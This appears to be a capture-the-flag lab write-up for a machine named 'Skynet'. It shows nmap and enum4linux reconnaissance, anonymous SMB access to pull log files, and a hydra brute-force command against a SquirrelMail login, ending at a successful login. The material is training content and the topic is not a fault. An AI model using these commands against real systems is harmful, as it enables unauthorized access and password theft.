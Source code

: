 # Skynet

The first thing that we should do is network scanning through nmap:

```bash
nmap -sV 10.10.99.10
```

![Alt text](../Screenshots/Skynet/nmap.png)

Now we can see that there are samba shares. Then I ran enumeration tool for linux target machine:

```bash
enum4linux -a <target_ip>
```

Moreover there is a listed user shown in the following image named `milesdyson`:
![Alt text](../Screenshots/Skynet/users.png)

It gave me following share
![Alt text](../Screenshots/Skynet/shares.png)

Simaltaneously, I started directory enumeration and found the following results:
![Alt text](../Screenshots/Skynet/dir_enum.png)

And there is an interesting directory seems `squirrelmail`. I visited it and found:

![Alt text](../Screenshots/Skynet/squirrelmail_login.png)

We can get some useful information through shares so I tried to get into them using the command:

```bash
smbclient //<target_ip>/anonymous -N
```

Now go into logs directory where you will find 3 log files:
![Alt text](../Screenshots/Skynet/logs.png)
```bash
get log1.txt
```
Using above command you can transfer there log files into your attacking machine on the path from where you ran the above smbClient command. Inside `log1.txt` there are many passwords. Useranme we already know, now we should try to crack the password:
```bash
hydra -l milesdyson -P log1.txt <target_ip> http-post-form \
"/squirrelmail/src/redirect.php:login_username=^USER^&secretkey=^PASS^&js_autodetect_results=1&just_logged_in=1:Unknown user or password" \
-V -t 16
```
We found the password:
![Alt text](../Screenshots/Skynet/password_found_hydra.png)

Now we have username and password, so let's try it on `squirrelmail` directory. Yes!! we logged in successfully as you can see:

![Alt text](../Screenshots/Skynet/squirrelmail_login_home.png)

